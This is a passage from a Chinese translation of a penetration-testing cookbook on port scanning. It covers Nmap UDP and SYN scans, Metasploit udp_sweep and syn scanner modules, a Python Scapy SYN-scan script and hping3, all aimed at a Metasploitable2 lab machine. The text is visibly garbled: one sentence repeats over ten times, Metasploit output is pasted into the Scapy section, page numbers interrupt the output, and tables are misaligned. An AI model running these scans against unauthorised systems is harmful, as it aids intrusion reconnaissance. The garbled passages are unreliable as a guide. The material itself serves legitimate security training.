PORT STATE SERVICE
123/udp open ntp
MAC Address: 00:50:56:C0:00:08 (VMware)

Nmap scan report for 172.16.36.2.
Host is up (0.00025s latency).

PORT STATE SERVICE
123/udp open|filtered ntp
139
MAC Address: 00:50:56:FF:2A:8E (VMware)

Nmap scan report for 172.16.36.132.
Host is up (0.00040s latency).

PORT STATE SERVICE
123/udp closed ntp
MAC Address: 00:0C:29:65:FC:D2 (VMware)

Nmap scan report for 172.16.36.135.
Host is up (0.00031s latency).

PORT STATE SERVICE
123/udp closed ntp
MAC Address: 00:0C:29:3D:84:32 (VMware)

Nmap done: 4 IP addresses (4 hosts up) scanned in 13.27 seconds

在提供的示例中，执行了一项扫描以确定执行目录下 `iplist.txt` 文件中的任何系统是否在 `123` 端口上运行了 NTP 服务。

### 工作原理……

虽然 Nmap 仍然需要应对与 UDP 扫描相关的许多相同挑战，但它仍然是一个非常有效的解决方案，因为它经过了优化，结合了最有效且最快速的技术来识别存活服务。

### 使用 Metasploit 进行 UDP 扫描

Metasploit 拥有一个辅助模块（auxiliary module），可以用于扫描特定的常用的 UDP 端口。此教程演示了我们如何使用该辅助模块来扫描单个系统或多个运行 UDP 服务的系统。

### 准备工作

要使用 Metasploit 执行 UDP 扫描，你需要一个通过 UDP 运行网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关有关如何设置 `Metasploitable2` 的更多信息，请参考*第 1 章，入门*。

### 如何操作……

在定义要运行的模块之前，需要打开 Metasploit。在 Kali Linux 中打开 Metasploit，我们在终端会话中按所示使用 `msfconsole` 命令：

```
root@KaliLinux:~# msfconsole
# cowsay++
____________
< metasploit >
------------
\ ,__,
\ (oo)____
(__) )\
||--|| ***
Large pentest? List, sort, group, tag and search your hosts and services in Metasploit Pro -- type 'go_pro' to launch it now.
=[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops
msf > use auxiliary/scanner/udp_sweep
msf auxiliary(udp_sweep) > show options
```

Module options:
Name Current Setting Required Description
---- --------------- -------- -----------
BATCHSIZE 256 yes The number of hosts to probe in each set
CHOST no The local client address
RHOSTS yes The target address range or CIDR identifier
THREADS 1 yes The number of concurrent threads

在在提供的示例中，`RHOSTS` 值被更改为想要扫描的远程系统的 IP 地址。此外，线程数已更改为 `20`。`THREADS` 值定义了后台执行的并发任务数量。确定线程值是为了找到一个平衡点，既能显著提高速度，又不会过度消耗系统资源。对于大多数系统而言，20 个线程是一个快速且安全的并发数量。在更新必要的变量后，可以再次使用 `show options` 命令验证配置：

```
msf auxiliary(udp_sweep) > set RHOSTS 172.16.36.135
RHOSTS => 172.16.36.135
msf auxiliary(udp_sweep) > set THREADS 20
THREADS => 20
msf auxiliary(udp_sweep) > show options
```

Module options (auxiliary/scanner/udp_sweep):
Name Current Setting Required Description
---- --------------- -------- -----------
BATCHSIZE 256 yes The number of hosts to probe in each set
CHOST no The local client address
RHOSTS 172.16.36.135 yes The target address range or CIDR identifier
THREADS 20 yes The number of concurrent threads

一旦验证了所需的配置，就可以启动扫描：

```
msf auxiliary(udp_sweep) > run
```


## ---- --------------- -------- -----------

`BATCHSIZE` 256 yes 每组中要探测的主机数量

`CHOST` no 本地客户端地址

`RHOSTS` 172.16.36.0/24 yes 目标地址范围或 CIDR

`identifier`

`THREADS` 20 yes 并发线程数

`msf auxiliary(udp_sweep) > run`

```
[*] Sending 12 probes to 172.16.36.0->172.16.36.255 (256 hosts)
[*] Discovered Portmap on 172.16.36.135:111 (100000 v2 TCP(111), 100000 v2 UDP(111), 100024 v1 UDP(36429), 100024 v1 TCP(56375), 100003 v2 UDP(2049), 100003 v3 UDP(2049), 100003 v4 UDP(2049), 100021 v1 UDP(34241), 100021 v3 UDP(34241), 100021 v4 UDP(34241), 100003 v2 TCP(2049), 100003 v3 TCP(2049), 100003 v4 TCP(2049), 100021 v1 TCP(50333), 100021 v3 TCP(50333), 100021 v4 TCP(50333), 100005 v1 UDP(47083), 100005 v1 TCP(57385), 100005 v2 UDP(47083), 100005 v2 TCP(57385), 100005 v3 UDP(47083), 100005 v3 TCP(57385))
[*] Discovered NetBIOS on 172.16.36.135:137 (METASPLOITABLE:<00>:U:METASPLOITABLE:<03>:U :METASPLOITABLE:<20>:U :__MSBROWSE__:<01>:G:WORKGROUP:<00>:G :WORKGROUP:<1d>:U :WORKGROUP:<1e>:G :00:00:00:00:00:00)
[*] Discovered NTP on 172.16.36.1:123 (NTP v4 (unsynchronized))
[*] Discovered NetBIOS on 172.16.36.1:137 (MACBOOKPRO-3E0F:<00>:U:00:50:56:c0:00:08)
[*] Discovered DNS on 172.16.36.0:53 (BIND 9.3.6-P1-RedHat-9.3.6-20.P1.el5_8.6)
[*] Discovered DNS on 172.16.36.2:53 (BIND 9.3.6-P1-RedHat-9.3.6-20.P1.el5_8.6)
[*] Discovered DNS on 172.16.36.135:53 (BIND 9.4.2)
[*] Discovered DNS on 172.16.36.255:53 (BIND 9.3.6-P1-RedHat-9.3.6-20.P1.el5_8.6)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 工作原理……

使用 Metasploit 辅助模块进行 UDP 扫描不如使用 Nmap 进行 UDP 扫描那样全面。它只针对有限数量的服务，但在识别这些端口上的活跃服务方面非常有效，且速度比大多数其他可用的 UDP 扫描方案都快。

## 使用 Scapy 进行隐蔽扫描

执行 TCP 端口扫描的一种方法是对目标端口进行部分 TCP 三次握手，以识别这些端口是否接受连接。这种扫描被称为隐蔽扫描、SYN 扫描或半开放扫描。本特定配方将演示如何使用 Scapy 执行 TCP 隐蔽扫描。

### 准备工作

要使用 Scapy 执行 TCP 隐蔽扫描，你将需要一个通过 TCP 运行可访问网络服务的远程系统。在提供的示例中，使用了 Metasploitable2 实例来执行此任务。有关如何设置 Metasploitable2 的更多信息，请参阅`第 1 章`，`入门指南`。此外，本节将要求使用文本编辑器（如 `VIM` 或 `Nano`）向文件系统写入脚本。有关如何编写脚本的更多信息，请参阅`第 1 章$，`入门指南`中的`使用文本编辑器 (VIM and Nano)`配方。

### 如何操作……

为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。

[*] 发向 172.16.36.0->172.16.36.255 的 12 个探测包 (256 个主机)
[*] 在 172.16.36.135:111 上发现 Portmap (100000 v2 TCP(111), 100000 v2 UDP(111), 100024 v1 UDP(36429), 100024 v1 TCP(56375), 100003 v2 UDP(2049), 100003 v3 UDP(2049), 100003 v4 UDP(2049), 100021 v1 UDP(34241), 100021 v3 UDP(34241), 100021 v4 UDP(34241), 100003 v2 TCP(2049), 100003 v3 TCP(2049), 100003 v4 TCP(2049), 100021 v1 TCP(50333), 100021 v3 TCP(50333), 100021 v4 TCP(50333), 100005 v1 UDP(47083), 100005 v1 TCP(57385), 100005 v2 UDP(47083), 100005 v2 TCP(57385), 100005 v3 UDP(47083), 100005 v3 TCP(57385))
[*] 在 172.16.36.135:137 上发现 NetBIOS (METASPLOITABLE:<00>:U:METASPLOITABLE:<03>:U :METASPLOITABLE:<20>:U :__MSBROWSE__:<01>:G:WORKGROUP:<00>:G :WORKGROUP:<1d>:U :WORKGROUP:<1e>:G :00:00:00:00:00:00)
[*] 在 172.16.36.1:123 上发现 NTP (NTP v4 (unsynchronized))
[*] 在 172.16.36.1:137 上发现 NetBIOS (MACBOOKPRO-3E0F:<00>:U:00:50:56:c0:00:08)
[*] 在 172.16.36.0:53 上发现 DNS (BIND 9.3.6-P1-RedHat-9.3.6-20.P1.el5_8.6)
[*] 在 172.16.36.2:53 上发现 DNS (BIND 9.3.6-P1-RedHat-9.3.6-20.P1.el5_8.6)
[*] 在 172.16.36.135:53 上发现 DNS (BIND 9.4.2)
[*] 在 172.16.36.255:53 上发现 DNS (BIND 9.3.6-P1-RedHat-9.3.6-20.P1.el5_8.6)
[*] 扫描了 256 个 256 个主机 (100% 完成)
[*] 辅助模块执行完成

为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。为了演示如何执行 SYN 扫描，我们使用 Scapy 构造一个 TCP SYN 请求，并识别与开放端口相关的响应。

```
[*] 发向 172.16.36.135 的 SYN 请求
[+] 172.16.36.0 -> 172.16.36.135
172.16.36.135 -> 172.16.36.0
```
[*] 收到来自 172.16.36.135 的 SYN/ACK 响应
[*] 端口 111 是开放的
[*] 发送 RST 包关闭连接


请注意，当 `SYN` 数据包发送到目标 Web 服务器的 TCP 端口 `80` 时（该服务器在该端口上运行 `HTTP` 服务），其响应的 TCP 标志值为 `SA`，这表示 `SYN` 和 `ACK` 标志位均已激活。此响应表示指定的目标端口是开放的并接受连接。如果将相同类型的数据包发送到不接受连接的端口，将返回不同的响应：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=4444))

..Begin emission:

.Finished to send 1 packets.
...
Received 7 packets, got 1 answers, remaining 0 packets

>>> response.display()

###[ IP ]###
version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 0
flags= DF
frag= 0L
ttl= 64
proto= tcp
chksum= 0x9974
src= 172.16.36.135
dst= 172.16.36.180
\options\
###[ TCP ]###
sport= 4444
dport= ftp_data
seq= 0
ack= 1
dataofs= 5L
reserved= 0L
flags= RA
window= 0
chksum= 0xfd03
urgptr= 0
options= {}
###[ Padding ]###
load= '\x00\x00\x00\x00\x00\x00'
```

当 `SYN` 请求发送到关闭的端口时，返回的响应的 TCP 标志值为 `RA`，这表示 `RST` 和 `ACK` 标志位均已激活。`ACK` 位仅用于确认已收到请求，而 `RST` 位则用于停止通信，因为该端口不接受连接。或者，如果将 `SYN` 数据包发送到已关机或处于过滤此类请求的防火墙后的系统，可能无法收到任何响应。由于这种情况，在脚本中使用 `sr1` 函数时，应始终使用超时（timeout）选项，以确保脚本不会挂在无响应的主机上：

```python
>>> response = sr1(IP(dst="172.16.36.136")/TCP(dport=4444),timeout=1,verbose=1)

Begin emission:
Finished to send 1 packets.
Received 15 packets, got 0 answers, remaining 1 packets
```

如果在对无响应主机使用此函数时未指定超时值，该函数将无限运行。在演示中，提供了 `1` 秒的超时值来完成函数，可以通过如下评估响应值来判断是否收到了回复：

```python
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>> response = sr1(IP(dst="172.16.36.136")/TCP(dport=4444),timeout=1,verbose=1)

Begin emission:
WARNING: Mac address to reach destination not found. Using broadcast.
Finished to send 1 packets.
Received 15 packets, got 0 answers, remaining 1 packets

>>> if response == None:
...     print "No Response!!!"
...
No Response!!!
```

使用 Python 可以轻松地测试变量，以识别 `sr1` 函数是否为其赋值了值。这可以作为初步检查，以确定是否收到了任何响应。对于收到的响应，可以进行后续检查以判断响应指示的端口是开放还是关闭。

所有这些都可以很容易地在 Python 脚本中排序，如下：

```python
#!/usr/bin/python
import logging
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)
from scapy.all import *
import sys

if len(sys.argv) != 4:
    print "Usage - ./syn_scan.py [Target-IP] [First Port] [Last Port]"
    print "Example - ./syn_scan.py 10.0.0.5 1 100"
    print "Example will TCP SYN scan ports 1 through 100 on 10.0.0.5"
    sys.exit()

ip = sys.argv[1]
start = int(sys.argv[2])
end = int(sys.argv[3])

for port in range(start,end):
    ans = sr1(IP(dst=ip)/TCP(dport=port),timeout=1,verbose=0)
    if ans == None:
        pass
    else:
        if int(ans[TCP].flags) == 18:
            print port
        else:
            pass
```

在提供的 Python 脚本中，用户会被提示输入 IP 地址，然后脚本会对定义的端口序列执行 SYN 扫描。脚本随后评估每次连接尝试的响应，以确定响应是否激活了 `SYN` 和 `ACK` TCP 标志。如果响应中存在且仅存在这些标志，则输出收到的相应端口号：

```bash
root@KaliLinux:~# chmod 777 syn_scan.py
root@KaliLinux:~# ./syn_scan.py
Usage - ./syn_scan.py [Target-IP] [First Port] [Last Port]
Example - ./syn_scan.py 10.0.0.5 1 100
Example will TCP SYN scan ports 1 through 100 on 10.0.0.5
root@KaliLinux:~# ./syn_scan.py 172.16.36.135 1 100
21
22
23
25
53
80
```

运行脚本后，输出将通过提供 IP 地址来指示系统上开放的前 100 个端口中的任何一个。

### 工作原理
这种扫描是通过通过向远程系统的目标 TCP 端口发送初始的 `SYN` 数据包请求来实现的，该端口的状态由返回的响应类型来确定。如果远程系统返回 `SYN+ACK` 响应，则它已准备好建立连接，可以假设端口是开放的。如果服务返回 `RST` 数据包，则表示端口已关闭且不接受连接。此外，如果没有返回任何响应，则扫描系统和远程系统之间可能存在丢弃此类请求的防火墙。这可能表明机器已关机，或者目标 IP 地址没有关联的系统。

### 使用 Nmap 进行隐身扫描
Nmap 也有一种对远程系统进行 SYN 扫描的模式。本教程演示了我们如何使用 Nmap 执行 TCP 隐身扫描。

### 准备工作
要使用 Nmap 执行 TCP 隐身扫描，你需要一个通过 TCP 运行着可访问网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关如何设置 `Metasploitable2` 的更多信息，请参阅第 1 章“入门指南”。

### 如何操作
与大多数扫描需求一样，Nmap 有一个选项可以简化并优化执行 TCP 隐身扫描的过程。要使用 Nmap 执行 TCP 隐身扫描，应使用 `-sS` 选项配合要扫描的 IP 地址：

```bash
root@KaliLinux:~# nmap -sS 172.16.36.135 -p 80
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 21:47 EST
Nmap scan report for 172.16.36.135
Host is up (0.00043s latency).
PORT STATE SERVICE
80/tcp open http
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

在提供的示例中，对指定 IP 地址的 TCP 端口 80 执行了 SYN 扫描。与 Scapy 的方法类似，Nmap 监听响应并通过分析激活的 TCP 标志来识别开放端口。我们也可以通过传递逗号分隔的端口列表使用 Nmap 扫描多个指定端口，如下：

```bash
root@KaliLinux:~# nmap -sS 172.16.36.135 -p 21,80,443
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 21:48 EST
Nmap scan report for 172.16.36.135
Host is up (0.00035s latency).
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
443/tcp closed https
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

我们还可以通过由连字符表示要扫描的第一个和最后一个端口号，使用 Nmap 扫描一系列连续主机：

```bash
root@KaliLinux:~# nmap -sS 172.16.36.135 -p 20-25
```


正在启动 Nmap 6.25 ( http://nmap.org ) 于 2013-12-17 21:48 EST

针对 `172.16.36.135` 的 Nmap 扫描报告

主机已开启（0.00035s 延迟）。

端口 状态 服务

20/tcp closed ftp-data
21/tcp open ftp

154

第 3 章

22/tcp open ssh
23/tcp open telnet
24/tcp closed priv-mail
25/tcp open smtp

MAC 地址: 00:0C:29:3D:84:32 (VMware)

Nmap 完成：扫描了 1 个 IP 地址（1 个主机开启），耗时 13.05 秒

在所提供的示例中，对 TCP 端口 20 到 25 执行了 SYN 扫描。除了为我们提供指定要扫描端口的能力外，Nmap 鋄拥有一个包含 1,000 个常用端口的预配置列表。我们可以在运行 Nmap 而不提供任何端口规格的情况下对这些端口进行扫描：

```
root@KaliLinux:~# nmap -sS 172.16.36.135
```

正在启动 Nmap 6.25 ( http://nmap.org ) 于 2013-12-17 21:46 EST

针对 `172.16.36.135` 的 Nmap 扫描报告

主机已开启（0.00038s 延迟）。

未显示：977 个关闭的端口

端口 状态 服务

21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
512/tcp open exec
513/tcp open login
514/tcp open shell
1099/tcp open rmiregistry
1524/tcp open ingreslock
2049/tcp open nfs
2121/tcp open ccproxy-ftp
3306/tcp open mysql

155

端口扫描

5432/tcp open postgresql
5900/tcp open vnc
6000/tcp open X11
6667/tcp open irc
8009/tcp open ajp13
8180/tcp open unknown

MAC 地址: 00:0C:29:3D:84:32 (VMware)

Nmap 完成：扫描了 1 个 IP 地址（1 个主机开启），耗时 13.17 秒

在所提供的示例中，扫描了 Nmap 定义的 1,000 个常用端口，以识别 Metasploitable2 系统上的大量开放端口。虽然这种技术在识别大多数服务方面是有效的，但它可能无法识别晦涩的服务或不常见的端口关联。如果要对所有可能的 TCP 端口扫描，则需要扫描所有可能的端口地址值。TCP 头部中定义源和目的端口地址的部分长度均为 16 位。此外，每个位可以保留 1 或 0 的值。因此，有 $2^{16}$ 或 65,536 个可能的 TCP 端口地址。为了扫描所有可能的总地址空间，需要提供 0 到 65535 的端口范围，如下所示：

```
root@KaliLinux:~# nmap -sS 172.16.36.135 -p 0-65535
```

正在启动 Nmap 6.25 ( http://nmap.org ) 于 2013-12-17 21:51 EST

针对 `172.16.36.135` 的 Nmap 扫描报告

主机已开启（0.00033s 延迟）。

未显示：65506 个关闭的端口

端口 状态 服务

21/tcp open ftp
22/tcp open ssh
23/tcp open telnet
25/tcp open smtp
53/tcp open domain
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
512/tcp open exec
513/tcp open login
514/tcp open shell

156

第 3 章

1099/tcp open rmiregistry
1524/tcp open ingreslock
2049/tcp open nfs
2121/tcp open ccproxy-ftp
3306/tcp open mysql
3632/tcp open distccd
5432/tcp open postgresql
5900/tcp open vnc
6000/tcp open X11
6667/tcp open irc
6697/tcp open unknown
8009/tcp open ajp13
8180/tcp open unknown
8787/tcp open unknown
34789/tcp open unknown
50333/tcp open unknown
56375/tcp open unknown
57385/tcp open unknown

MAC 地址: 00:0C:29:3D:84:32 (VMware)

Nmap 完成：扫描了 1 个 IP 地址（1 个主机开启），耗时 16.78 秒

在所提供的示例中，在 Metasploitable2 系统上扫描了所有 65,536 个可能的 TCP 地址。请注意，在此扫描中识别出的服务比标准的 Nmap 1,000 扫描的多。这证明了在尝试识别目标上所有可能的攻击面时，全扫描始终是最佳实践。Nmap 还可以使用连字符表示法对一系列主机扫描 TCP 端口：

```
root@KaliLinux:~# nmap 172.16.36.0-255 -sS -p 80
```

正在启动 Nmap 6.25 ( http://nmap.org ) 于 2013-12-17 21:56 EST

针对 `172.16.36.1` 的 Nmap 扫描报告

主机已开启（0.00023s 延迟）。

端口 状态 服务

80/tcp closed http

MAC 地址: 00:50:56:C0:00:08 (VMware)

157

端口扫描

针对 `172.16.36.2` 的 Nmap 扫描报告

主机已开启（0.00018s 延迟）。

端口 状态 服务

80/tcp closed http

MAC 地址: 00:50:56:FF:2A:8E (VMware)

针对 `172.16.36.132` 的 Nmap 扫描报告

主机已开启（0.00047s 延迟）。

端口 状态 服务

80/tcp closed http

MAC 地址: 00:0C:29:65:FC:D2 (VMware)

针对 `172.16.36.135` 的 Nmap 扫描报告

主机已开启（0.00016s 延迟）。

端口 状态 服务

80/tcp open http

MAC 地址: 00:0C:29:3D:84:32 (VMware)

针对 `172.16.36.180` 的 Nmap 扫描报告

主机已开启（0.0029s 延迟）。

端口 状态 服务

80/tcp open http

Nmap 完成：扫描了 256 个 IP 地址（5 个主机开启），耗时 13.05 秒

使用 Nmap 执行 SYN 扫描的底层原理与之前讨论的相同。然而，由于具有多线程能力，Nmap 是执行此类扫描的一种快速且非常高效的方式。


II 'T; ;P' `. / | \.'

IIIIII 'YvP' `-.__|__.-'

我爱 shells --egypt

使用记事本跟踪渗透测试吗？可以使用 Metasploit Pro 对主机、服务、会话和证据生成报告——输入 `go_pro` 立即启动。

=[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1053 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops

```
msf > use auxiliary/scanner/portscan/syn
msf auxiliary(syn) > show options
```

160

### 第 3 章

#### 模块选项 (auxiliary/scanner/portscan/syn):

| 名称 | 当前设置 |  | 说明 |
| :--- | :--- | :--- | :--- |
| BATCHSIZE | 256 | yes | 每组扫描的主机数量 |
| INTERFACE | no | | 接口名称 |
| PORTS | 1-10000 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | | yes | 目标地址范围或 CIDR 标识 |
| SNAPLEN | 65535 | yes | 捕获的字节数 |
| THREADS | 1 | yes | 并线程数 |
| TIMEOUT | 500 | yes | 回复读取超时时间（毫秒） |

在 Metasploit 中运行 SYN 扫描模块，请使用 `auxiliary` 模块的相对路径调用 `use` 命令。一旦选择了该模块，可以使用 `show options` 命令来识别和或修改扫描配置。该命令将显示四个列标题，包括 `Name`（名称）、`Current Setting`（当前设置）、`Required`（是否）和 `Description`（说明）。`Name` 列标识每个可配置变量的名称`Current Setting` 列列出任意变量的现有配置。`Required` 列标识给定变量是否需要值。此外，`Description` 列描述了每个变量的功能。可以使用 `set` 命令并通过提供新值作为参数来更改给定变量的值：

```
msf auxiliary(syn) > set RHOSTS 172.16.36.135
RHOSTS => 172.16.36.135
msf auxiliary(syn) > set THREADS 20
THREADS => 20
msf auxiliary(syn) > set PORTS 80
PORTS => 80
msf auxiliary(syn) > show options
```

模块选项 (auxiliary/scanner/portscan/syn):

| 名称 | 当前设置 | | | 说明 |
| :--- | :--- | :--- | :--- |
| BATCHSIZE | 256 | yes | 每组扫描的主机数量 |
| INTERFACE | no | | 接口名称 |
| PORTS | 80 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | 172.16.36.135 | yes | 目标地址范围或 CIDR 标识 |
| SNAPLEN | 65535 | yes | 捕获的字节数 |
| THREADS | 20 | yes | 并线程数 |
| TIMEOUT | 500 | yes | 回复读取超时时间（毫秒） |

161

在提供的示例中，`RHOSTS` 值被更改为我们想要扫描的远程系统的 IP 地址。此外，线程数更改为 20。`THREADS` 值定义了在后台执行的并发任务数。确定线程值需要找到一个良好的平衡点，既能显著提高任务速度，又不会过度消耗系统资源。对于大多数系统而言，20 个线程是一个快速且且相当安全的并发进程数。`PORTS` 值被设置为 TCP 端口 80 (HTTP)。在更新了必要的变量后，可以使用 `show options` 命令再次验证配置。一旦验证了所需的配置，可以按照如下方式启动扫描：

```
msf auxiliary(syn) > run
[*] TCP OPEN 172.16.36.135:80
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

`run` 命令在 Metasploit 中用于执行指定的 `auxiliary` 模块。在提供的示例中，`run` 命令对指定 IP 地址的端口 80 执行了 TCP SYN 扫描。我们也可以通过提供由连字符分隔的第一个和最后一个值，对一系列连续的 TCP 端口运行此 TCP SYN 扫描模块：

```
msf auxiliary(syn) > set PORTS 0-100
PORTS => 0-100
msf auxiliary(syn) > show options
```

模块选项 (auxiliary/scanner/portscan/syn):

| 名称 | 当前设置 | | 说明 |
| :--- | :--- | :--- | :--- |
| BATCHSIZE | 256 | yes | 每组扫描的主机数量 |
| INTERFACE | no | | 接口名称 |
| PORTS | 0-100 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| RHOSTS | | yes | 目标地址范围或 CIDR 标识 |
| SNAPLEN | 65535 | yes | 捕获的字节数 |
| THREADS | 20 | yes | 并线程数 |
| TIMEOUT | 500 | yes | 回复读取超时时间（毫秒） |

162

```
msf auxiliary(syn) > run
[*] TCP OPEN 172.16.36.135:80
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


# 模块选项表格

| 名称 | 当前设置 | 必须 | 描述 |
| :--- | :--- | :--- | :--- |
| `BATCHSIZE` | 256 | yes | 每组扫描的主机数量 |
| `INTERFACE` | | no | 接口名称 |
| `PORTS` | 80 | yes | 要扫描的端口（例如 22-25,80,110-900） |
| `RHOSTS` | 172.16.36.0/24 | yes | 目标地址范围或 CIDR 标识符 |
| `SNAPLEN` | 65535 | yes | 捕获的字节数 |
| `THREADS` | 20 | yes | 并线程数 |
| `TIMEOUT` | 500 | yes | 回复读取超时时间（毫秒） |

## 执行示例

```bash
msf auxiliary(syn) > run
[*] TCP OPEN 172.16.36.135:80
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

## 端口扫描

在提供的示例中，针对 `RHOSTS` 变量指定的所有主机地址对 80 端口执行了 TCP SYN 扫描。同样，`RHOSTS` 也可以使用 CIDR 表示法来定义网络范围：

```bash
msf auxiliary(syn) > set RHOSTS 172.16.36.0/24
RHOSTS => 172.16.36.0/24
msf auxiliary(syn) > show options
```

### 工作原理……

Metasploit SYN 扫描辅助模块工作的底层原理与任何其他 SYN 扫描工具本质相同。对于每个扫描的端口，都会发送一个 SYN 数据包，并利用 SYN+ACK 响应来识别活跃的服务。使用 Metasploit 可能对某些人更有吸引力，因为它具有交互式控制台，而且它是大多数渗透测试人员都熟知的工具。

## 使用 hping3 进行隐蔽扫描

除了我们之前学的发现技术外，`hping3` 也可以用于端口扫描。此特定示例演示了我们如何使用 `hping3` 执行 TCP 隐蔽扫描。

### 准备工作

要使用 `hping3` 执行 TCP 隐蔽扫描，你需要一个通过 TCP 运行可访问网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关如何设置 `Metasploitable2` 的更多信息，请参阅第 1 章“入门”。

### 如何操作……

除了已经提到的发现能力外，`hping3` 还可以执行 TCP 端口扫描。要使用 `hping3` 执行端口扫描，我们需要使用 `--scan` 模式并配合整数值来指示要扫描的端口号：

```bash
root@KaliLinux:~# hping3 172.16.36.135 --scan 80 -S
Scanning 172.16.36.135 (172.16.36.135), port 80
1 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name | flags |ttl| id | win | len |
+----+-----------+---------+---+-----+-----+-----+
80 http : .S..A... 64 0 5840 46
All replies received. Done.
```

### 未响应的端口：

在提供的示例中，针对指定 IP 地址的 TCP 80 端口执行了 SYN 扫描。`-S` 选项标识发送到远程系统的数据包中激活的 TCP 标志。表格显示了响应数据包的属性。如输出所示，收到了 SYN+ACK 响应，表明目标主机上的 80 端口是开放的。

此外，我们可以通过传递逗号分隔的端口号序列来扫描多个端口：

```bash
root@KaliLinux:~# hping3 172.16.36.135 --scan 22,80,443 -S
Scanning 172.16.36.135 (172.16.36.135), port 22,80,443
3 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name | flags |ttl| id | win | len |
+----+-----------+---------+---+-----+-----+-----+
22 ssh : .S..A... 64 0 5840 46
80 http : .S..A... 64 0 5840 46
All replies received. Done.
```

### 扫描范围和详细程度

在提供的扫描输出中，你可以看到结果仅在收到 SYN+ACK 响应时才会显示。请注意，发送到 443 端口的 SYN 请求相关的响应并未显示。如输出所示，我们可以通过使用 `-v` 选项增加详细程度来查看所有响应。此外，可以通过传递以连字符分隔的起始和结束端口地址来扫描连续端口范围：

```bash
root@KaliLinux:~# hping3 172.16.36.135 --scan 0-100 -S
Scanning 172.16.36.135 (172.16.36.135), port 0-100
101 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name | flags |ttl| id | win | len |
+----+-----------+---------+---+-----+-----+-----+-----+
21 ftp : .S..A... 64 0 5840 46
22 ssh : .S..A... 64 0 5840 46
23 telnet : .S..A... 64 0 5840 46
25 smtp : .S..A... 64 0 5840 46
53 domain : .S..A... 64 0 5840 46
80 http : .S..A... 64 0 5840 46
```


`hping3` 与之前提到的某些工具不同，因为它没有 SYN 扫描模式，而是允许你指定在发送 TCP 数据包时激活的 TCP 标志位（flag bits）。在本教程提供的示例中，`-S` 选项指示 `hping3` 为发送的 TCP 数据包使用 SYN 标志位。

## 使用 Scapy 进行连接扫描

对于大多数扫描工具来说，TCP 连接扫描（TCP connect scanning）比 SYN 扫描更容易实现。这是因为 TCP 连接扫描不需要生成和注入 SYN 扫描中使用的原始数据包（raw packets）所需的提升权限。`Scapy` 是此中的一个大例外。实际上，使用 `Scapy` 执行完整的 TCP 三次握手是非常困难且不切实际的。然而，为了更好地理解这一过程，我们将在本教程中介绍如何使用 `Scapy` 执行连接扫描。

### 准备工作

要使用 `Scapy` 执行完整的连接扫描，你需要一个运行着 TCP 网络服务的远程系统。在本文提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关如何设置 `Metasploitable2` 的更多信息，请参阅第 1 章《入门指南》。此外，本节还需要使用文本编辑器（如 `VIM` 或 `Nano`）向文件系统编写脚本。有关如何编写脚本的更多信息，请参阅第 1 章《入门指南》中的“使用文本编辑器 (VIM 和 Nano)”教程。

### 如何操作……

